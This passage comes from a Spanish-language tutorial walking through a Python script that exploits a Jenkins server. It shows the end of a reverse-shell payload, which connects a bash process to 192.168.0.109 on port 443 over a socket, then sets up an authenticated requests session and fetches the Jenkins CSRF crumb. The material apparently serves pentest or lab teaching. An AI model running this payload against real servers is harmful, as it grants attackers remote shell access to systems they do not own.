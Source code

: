```python
    while(si.available()>0)
        po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e){}
};
p.destroy();
s.close(); 
"""
```

**Aspectos a notar:**

- Se utiliza la sintaxis de triple comillas para definir un string multilínea.
    
- El payload abre un socket hacia el host y puerto definidos (`192.168.0.109` y `443` respectivamente) y ejecuta el comando `bash` para obtener una shell interactiva.
    
- Se redireccionan los flujos de entrada y salida para enviar la información entre el proceso local y la conexión remota.
    

---

## 4. Creación de una Sesión y Configuración de Autenticación

Se crea una sesión con la librería `requests` que permite mantener cookies y datos de autenticación entre peticiones:

```python
session = requests.session()
session.auth = (usuario, password)
```

Esto configura la autenticación básica (usuario y contraseña) para cada petición realizada con dicha sesión.

---

## 5. Obtención del Jenkins Crumb

Jenkins utiliza un token denominado **crumb** para prevenir ataques CSRF. Para obtener este token se realiza una petición GET a la siguiente URL:

```python
crumb_url = f'{jenkins_url}/crumbIssuer/api/json'
crumb_respuesta = session.get(crumb_url)
print(crumb_respuesta)
```
